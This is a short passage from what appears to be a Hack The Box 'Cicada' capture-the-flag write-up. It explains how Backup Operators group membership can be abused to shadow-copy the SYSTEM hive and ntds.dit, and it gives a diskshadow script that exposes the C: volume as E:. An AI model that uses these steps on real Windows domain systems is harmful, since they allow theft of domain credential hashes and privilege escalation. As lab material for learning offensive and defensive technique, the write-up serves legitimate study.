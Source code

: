 ![image.png](/assets/images/Cicada_HTB/image%2025.png)

The users in the backup operators group can create a shadow copy of the system.hive and the ntds.dit database to escalate their privileges.

So we create a backup.txt file containing following commands in our attacker machine.

```powershell
set verbose on
set metadata C:\Windows\Temp\meta.cab
set context clientaccessible
set context persistent
begin backup
add volume C: alias cdrive
create
expose %cdrive% E:
end backup
```

![image.png](/assets/images/Cicada_HTB/image%2026.png)